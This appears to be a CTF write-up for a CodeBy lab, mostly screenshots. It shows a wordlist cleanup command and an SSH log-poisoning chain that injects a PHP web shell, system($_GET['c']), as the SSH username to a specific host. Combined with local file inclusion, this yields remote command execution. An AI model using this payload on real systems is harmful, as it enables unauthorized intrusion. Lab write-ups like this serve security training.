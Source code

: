 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a7b2dd5a-fb75-4691-a800-9242f265814a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0b142f2a-075f-4e6a-9b78-537719ee7601)

https://book.hacktricks.xyz/pentesting-web/file-inclusion

```
cat dot-slash-PathTraversal_and_LFI_pairing.txt | sed -e "s/.$//" > out.txt 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9de9f00f-146c-49c8-997c-44bacc0508dd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bc2ef9b8-2236-4d56-ba7a-23b609ee2585)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ab24a67-25e2-4444-8220-b349985610f1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/65bd9ced-057c-4e2e-a7e6-e070ebdae6ac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/011afb6b-8892-416c-90d9-ab6c89ecac41)
```
ssh '<?php phpinfo(); ?>'@62.173.140.174 -p 18222
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/13130953-76fa-43cb-88b9-5f2decc00ef2)
```
ssh '<?php system($_GET["c"]); ?>'@62.173.140.174 -p 18222 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4b1329e2-6d08-489e-ba41-6602ceecd0f1)

